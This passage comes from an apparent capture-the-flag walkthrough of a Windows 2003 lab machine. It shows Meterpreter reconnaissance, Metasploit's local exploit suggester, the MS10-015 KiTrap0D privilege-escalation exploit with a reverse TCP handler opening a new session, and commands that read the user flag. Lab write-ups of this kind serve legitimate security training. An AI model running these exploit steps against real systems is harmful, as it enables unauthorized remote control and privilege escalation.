 **Command/Code:**
```bash
getuid
sysinfo
shell
whoami
```

**Output:**
```
Server username: NT AUTHORITY\IUSR
Computer        : BASTARD
OS              : Windows 2003 (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

### Step 5: Privilege Escalation
Check for privilege escalation opportunities.

**Command/Code:**
```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Step 6: MS10-015 Exploitation
Use the MS10-015 exploit for privilege escalation.

**Command/Code:**
```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4445 
[*] Writing payload file to C:\WINDOWS\Temp\cVQJhV.exe
[*] Sending stage (175174 bytes) to 10.10.10.9
[*] Meterpreter session 2 opened (10.10.14.2:4445 -> 10.10.10.9:32892) at 2024-09-03 10:10:23 +0000
```

### Step 7: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
getuid
dir C:\Documents and Settings
dir "C:\Documents and Settings\dimitris\Desktop"
type "C:\Documents and Settings\dimitris\Desktop\user.txt"
```
